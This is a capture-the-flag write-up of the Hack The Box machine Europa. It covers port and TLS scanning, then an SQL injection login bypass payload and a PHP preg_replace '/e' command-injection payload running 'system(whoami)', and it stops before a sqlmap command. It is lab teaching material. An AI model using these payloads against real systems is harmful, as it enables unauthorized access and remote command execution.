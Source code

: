 [[HTB-LABS]]
**source : [htb labs](https://app.hackthebox.com/machines/Europa)**
**difficulty : Medium**

Europa can present a bit of a challenge, or can be quite easy, depending on if you know what to look for. While it does not require many steps to complete, it provides a great learning experience in several fairly uncommon enumeration techniques and attack vectors.

#### recon
i run nmap using this command **`nmap -sCV -Pn -T4 10.10.10.22`**
```python
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-08 10:23 +03
Nmap scan report for 10.10.10.22
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.77 seconds

```

this what port `80` and `443` look like:
`http://10.10.10.22:80/`
![[Pasted image 20251008120944.png]]

`http://10.10.10.22:443/`
![[Pasted image 20251008121041 1.png]]

until now there's nothing , so i run this command **`sslscan 10.10.10.22`**
and the result was like this
```python
Version: 2.1.5
OpenSSL 3.5.3 16 Sep 2025

Connected to 10.10.10.22

Testing SSL server 10.10.10.22 on port 443 using SNI name 10.10.10.22

  SSL/TLS Protocols:
SSLv2     disabled
SSLv3     disabled
TLSv1.0   enabled
TLSv1.1   enabled
TLSv1.2   enabled
TLSv1.3   disabled

  TLS Fallback SCSV:
Server supports TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression disabled

  Heartbleed:
TLSv1.2 not vulnerable to heartbleed
TLSv1.1 not vulnerable to heartbleed
TLSv1.0 not vulnerable to heartbleed

  Supported Server Cipher(s):
Preferred TLSv1.2  256 bits  ECDHE-RSA-AES256-GCM-SHA384   Curve P-256 DHE 256
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-GCM-SHA384     DHE 2048 bits
Accepted  TLSv1.2  128 bits  ECDHE-RSA-AES128-GCM-SHA256   Curve P-256 DHE 256
Accepted  TLSv1.2  128 bits  DHE-RSA-AES128-GCM-SHA256     DHE 2048 bits
Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-SHA384       Curve P-256 DHE 256
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-SHA256         DHE 2048 bits
Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-SHA            DHE 2048 bits
Preferred TLSv1.1  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.1  256 bits  DHE-RSA-AES256-SHA            DHE 2048 bits
Preferred TLSv1.0  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.0  256 bits  DHE-RSA-AES256-SHA            DHE 2048 bits

  Server Key Exchange Group(s):
TLSv1.2  141 bits  sect283k1
TLSv1.2  141 bits  sect283r1
TLSv1.2  204 bits  sect409k1
TLSv1.2  204 bits  sect409r1
TLSv1.2  285 bits  sect571k1
TLSv1.2  285 bits  sect571r1
TLSv1.2  128 bits  secp256k1
TLSv1.2  128 bits  secp256r1 (NIST P-256)
TLSv1.2  192 bits  secp384r1 (NIST P-384)
TLSv1.2  260 bits  secp521r1 (NIST P-521)
TLSv1.2  128 bits  brainpoolP256r1
TLSv1.2  192 bits  brainpoolP384r1
TLSv1.2  256 bits  brainpoolP512r1

  SSL Certificate:
Signature Algorithm: sha256WithRSAEncryption
RSA Key Strength:    3072

Subject:  europacorp.htb
Altnames: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
Issuer:   europacorp.htb

Not valid before: Apr 19 09:06:22 2017 GMT
Not valid after:  Apr 17 09:06:22 2027 GMT

```

as you see it found two Alt-names one is `www.europacorp.htb` and the other one is 
`admin-portal.europacorp.htb` admin portal is the most valuable so i will add it to `/etc/hosts`

after going to **`https://admin-portal.europacorp.htb/`** it will show us login page 
![[Pasted image 20251008121818 1.png]]

here after try some sqli payloads , i found i can login without need the password but i dont have the email and i need to found it 
i found this email **`admin@europacorp.htb`**
how?

![[Pasted image 20251008122350 1.png]]
click on lock then press `connection` 
then click on `more information`
then `view certificate`
will show some info , i found the email there

#### use sqli to login
to login i use burp to intercept the login request and i change the `POST` data to this 
**`email=admin%40europacorp.htb'-- -&password=ddddwoowo`**  
now i'm in
i was in dashboard after crawling i found this `https://admin-portal.europacorp.htb/tools.php` that could let me in the machine 
![[Pasted image 20251008123253 1.png]]
write anything and intercept it by burp and the request will look like this : (after decode it)
```python
POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
Cookie: PHPSESSID=o2ijk8chp7f6t0446m8n7bgkd2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1681
Origin: https://admin-portal.europacorp.htb
Referer: https://admin-portal.europacorp.htb/tools.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

pattern=/ip_address/&ipaddress=ali&text="openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
                                
```

if you see here `/ip_address/` this is  Regular Expressions which is danger, after search i found that if i add `e` , like this `/ip_address/e` and change this to command `ipaddress=ali` change `ali` to the command

after all it will be like this **`pattern=/ip_address/e&ipaddress=system(whoami)&text="openvpn":`**'

but before all of this , dont forget that we have sqli and we can use sqlmap to get some `--dump`
by using this command
